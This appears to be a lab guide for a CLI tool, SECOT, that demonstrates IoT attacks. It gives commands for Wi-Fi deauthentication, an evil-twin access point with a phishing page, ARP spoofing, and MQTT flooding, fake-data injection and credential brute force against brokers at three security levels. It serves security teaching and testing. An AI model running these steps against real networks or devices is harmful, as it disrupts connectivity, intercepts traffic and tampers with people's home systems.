 # IoT Security Attack Demonstration Guide

## Overview
This guide provides step-by-step instructions for using the SECOT (Security & IoT) CLI tool to demonstrate various attack scenarios against IoT devices and networks. The guide covers network compromise techniques and IoT-specific attacks against different security levels.

## Prerequisites
- Kali Linux or similar penetration testing environment
- External Wi-Fi adapter supporting monitor mode
- Victim IoT projects deployed and running
- Required tools installed (see install_dependencies.py)

## Phase 1: Network Compromise

### Step 1: Initial Network Scan
```bash
# Scan for available networks
./secot scan -i wlan0 -d 30

# This will show:
# - Available APs
# - Connected clients
# - Signal strength
# - Security type
```

### Step 2: Deauthentication Attack
```bash
# Deauth all clients from target AP
./secot deauth -i wlan0 -a "00:11:22:33:44:55" -p 100

# Deauth specific client
./secot deauth -i wlan0 -a "00:11:22:33:44:55" -c "AA:BB:CC:DD:EE:FF" -p 100
```

### Step 3: Evil Twin Attack
```bash
# Deploy evil twin AP
./secot evil-twin -i wlan0 -s "VictimNetwork" -c 6 -t "192.168.1.0/24" -p "phishing_template.html"
```

### Step 4: ARP Spoofing
```bash
# Start ARP spoofing between victim and gateway
./secot arp-spoof -i wlan0 -v "192.168.1.100" -g "192.168.1.1" -d 0
```

## Phase 2: IoT Attack Scenarios

### Scenario 1: No Security MQTT Broker (Port 1883)

1. **Flood Attack**
```bash
# Flood the MQTT broker with messages
./secot mqtt-attack -b localhost -p 1883 flood -t "home/weatherstation/temperature" -c 1000

# Flood smart light control
./secot mqtt-attack -b localhost -p 1883 flood -t "home/smartlight/command" -c 1000
```

2. **Fake Data Injection**
```bash
# Inject fake temperature data
./secot mqtt-attack -b localhost -p 1883 fake-publish -t "home/weatherstation/temperature" -m "{\"temperature\": 999.9}" -c 1

# Inject fake humidity data
./secot mqtt-attack -b localhost -p 1883 fake-publish -t "home/weatherstation/humidity" -m "{\"humidity\": 999.9}" -c 1

# Control smart light
./secot mqtt-attack -b localhost -p 1883 fake-publish -t "home/smartlight/command" -m "{\"state\":\"ON\",\"brightness\":255}" -c 1
```

### Scenario 2: Basic Security MQTT Broker (Port 1884)

1. **Credential Brute Force**
```bash
# Create users.txt with common usernames
echo -e "weather_station\nweb_dashboard\nandroid_app\nadmin" > users.txt

# Create passwords.txt with 4-digit PINs
echo -e "0000\n1111\n1234\n5678\n9012" > passwords.txt

# Run brute force attack
./secot mqtt-attack -b localhost -p 1884 brute-force -u users.txt -p passwords.txt
```

2. **Attack with Compromised Credentials**
```bash
# Once credentials are found, use them to inject fake data
./secot mqtt-attack -b localhost -p 1884 fake-publish -t "home/weatherstation/temperature" -m "{\"temperature\": 999.9}" -c 1
```

### Scenario 3: Secure MQTT Broker (Port 8883)

1. **TLS/SSL Testing**
```bash
# Attempt brute force with TLS
./secot mqtt-attack -b localhost -p 8883 brute-force -u users.txt -p passwords.txt

# Attempt fake publish with TLS
./secot mqtt-attack -b localhost -p 8883 fake-publish -t "home/weatherstation/temperature" -m "{\"temperature\": 999.9}" -c 1
```

## Attack Demonstration Flow

1. **Initial Setup**
   - Start the victim projects with desired security level
   - Ensure all components are running (NodeMCU, web dashboard, Android app)

2. **Network Compromise**
   - Use scan to identify target network
   - Deauth clients from legitimate AP
   - Deploy evil twin
   - Start ARP spoofing

3. **MQTT Attack Execution**
   - For No Security:
     - Direct message injection
     - Broker flooding
   - For Basic Security:
     - Brute force credentials
     - Use compromised credentials
   - For Secure:
     - Test TLS/SSL protection
     - Attempt credential attacks

4. **Observe Effects**
   - Watch web dashboard for fake data
   - Monitor NodeMCU LCD display
   - Check Android app behavior
   - Analyze MQTT broker logs

## Expected Results

1. **No Security**
   - Successful message injection
   - Dashboard shows fake data
   - Broker may become unresponsive

2. **Basic Security**
   - Credential brute force success
   - Access with compromised credentials
   - Limited protection

3. **Secure**
   - Failed brute force attempts
   - TLS/SSL protection
   - Strong authentication prevents unauthorized access

## Notes
- Always perform these attacks in a controlled environment
- Document all findings and observations
- Use the results to improve security measures
- Consider implementing additional security layers based on findings 